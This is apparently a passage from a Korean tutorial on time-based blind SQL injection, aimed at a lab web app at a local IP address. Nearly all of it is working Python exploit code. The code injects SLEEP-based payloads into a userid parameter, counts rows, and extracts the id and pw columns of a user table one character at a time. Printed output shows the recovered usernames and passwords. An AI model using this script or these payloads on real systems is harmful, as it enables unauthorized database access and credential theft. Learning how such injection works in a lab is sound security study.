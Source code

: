 ```py
    for j in range(DATA_LENGTH):
        for s in string.printable.strip():
            QUERY   = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR((SELECT id FROM test.user LIMIT {i},1),{j+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            START_TIME  = time.time()
            REQUEST     = requests.get(url=URL)
            END_TIME    = time.time()
            if END_TIME - START_TIME > SLEEP_TIME: DATA += s
    print(f'{DATA}')
```

결과는 다음과 같다.

	admin
    test

다음의 Full Code로 모든 pw 컬럼의 데이터를 확인해보자.

```py
import requests
import string
import time

TARGET          = 'http://192.168.0.58/index.php'
SLEEP_TIME      = 0.5
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'\' OR IF((SELECT COUNT(pw) FROM test.user)={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    START_TIME  = time.time()
    REQUEST     = requests.get(url=URL)
    END_TIME    = time.time()
    if END_TIME - START_TIME > SLEEP_TIME:
        RESULT_LENGTH = i
        break
print(f'Number of data : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    DATA_LENGTH    = 0
    DATA           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'\' OR IF(LENGTH((SELECT pw FROM test.user LIMIT {i},1))={j},SLEEP({SLEEP_TIME}),SLEEP(0))#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        START_TIME  = time.time()
        REQUEST     = requests.get(url=URL)
        END_TIME    = time.time()
        if END_TIME - START_TIME > SLEEP_TIME: DATA_LENGTH = j
    for j in range(DATA_LENGTH):
        for s in string.printable.strip():
            QUERY   = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR((SELECT pw FROM test.user LIMIT {i},1),{j+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            START_TIME  = time.time()
            REQUEST     = requests.get(url=URL)
            END_TIME    = time.time()
            if END_TIME - START_TIME > SLEEP_TIME: DATA += s
    print(f'{DATA}')
```

결과는 다음과 같다.

	helloworld
    test